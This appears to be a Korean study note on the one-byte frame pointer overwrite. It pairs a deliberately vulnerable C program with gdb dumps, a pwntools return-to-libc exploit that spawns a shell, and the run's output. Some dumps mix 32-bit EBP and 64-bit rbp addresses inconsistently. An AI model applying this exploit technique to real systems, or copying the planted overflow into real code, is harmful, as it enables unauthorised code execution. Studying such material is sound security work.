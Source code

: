 ## **Concept**

Frame Poineter를 1byte 덮어써 코드의 흐름을 변경하는 기법. One-byte Overflow라고도 한다.

## **Proof of Concept**

```c
// Vuln Code
// gcc -fno-stack-protector -o fpo fpo.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>
 
void vuln(){
    char buf[32];
    printf("buf[32] address : %p\n",buf);
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 49);
}
 
void main(int argc, char *argv[]){
    if(argc<2){
        printf("argv error\n");
        exit(0);
    }
    vuln();
}
```

buf는 32 byte지만 read를 49 byte하여 bof 발생.

```
0x7ffe119a28b0:	0x4141414141414141         0x4141414141414141
0x7ffe119a28c0:	0x4141414141414141         0x4141414141414141
0x7ffe119a28d0:	0x4141414141414141         0x4141414141414141
0x7ffe119a28e0:	0x00007ffe119a2942 <= rbp  0x000000000040079b 
0x7ffe119a28f0:	0x00007ffe119a29e8         0x0000000200000000
```

&buf+4(0xbfa07cfe)의 마지막 byte(0xfe)를 EBP의 마지막 바이트에 삽입.

```
gdb-peda$ x/24x $ebp
0xbfa07d02:	0x43434343	0x44444444	0x45454545	0x46464646
0xbfa07d12:	0x47474747	0x48484848	0x80ecb70a	0x0002b7d2
```

1 byte 오버플로를 통해 rbp 변경 확인.

```
gdb-peda$ x/24gx $rbp
0x7ffe119a2942:	0x29e0000000000040	0x000000007ffe119a
0x7ffe119a2952:	0x0000000000000000	0x2989000000000000
0x7ffe119a2962:	0x29894ef138aa26b6	0x00004ff63f51fb46
```

leave 명령으로 인해 rbp 레지스터 값은 rsp에 저장됨.  
따라서 1 byte 변조하여 RTL 코드 또는 Shellcode가 저장된 영역을 가리키게 한다면 Shell 획득 가능.

## **Exploit Code**
```python
# Exploit Code
from pwn import *

p=process(['./fpo','a'])
buf = p.recvline()
libc = p.recvline()

onebyte = int(buf.split(' ')[3][12:14],16)
libcBase = int(libc.split(' ')[3],16) - 0x55800
system = libcBase + 0x45390
binsh = libcBase + 0x18cd57
exit = libcBase + 0x3a030
poprdi = 0x400803

print('one byte: '+hex(onebyte))
print('libcBase: '+hex(libcBase))
print('system(): '+hex(system))
print('/bin/sh: '+hex(binsh))
print('exit: '+hex(exit))
print('pop rdi: '+hex(poprdi))

exploit_code = "A"*8
exploit_code += p64(poprdi)
exploit_code += p64(binsh)
exploit_code += p64(system)
exploit_code += "A"*(48-len(exploit_code))
exploit_code += p64(onebyte)

p.sendline(exploit_code)

p.interactive()
```

## **Exploit**
```shell
pwner@bs-virtual-machine:~$ python exploit.py 
[+] Starting local process './fpo': pid 10373
one byte: 0x50
libcBase: 0x7fe3ad0be000
system(): 0x7fe3ad103390
/bin/sh: 0x7fe3ad24ad57
exit: 0x7fe3ad0f8030
pop rdi: 0x400803
[*] Switching to interactive mode
$ id
uid=1001(pwner) gid=1001(pwner) groups=1001(pwner)
```

**Refereces**  
<https://www.lazenca.net/display/TEC/02.Frame+Pointer+Overwrite%28One-byte+Overflow%29+-+x64>
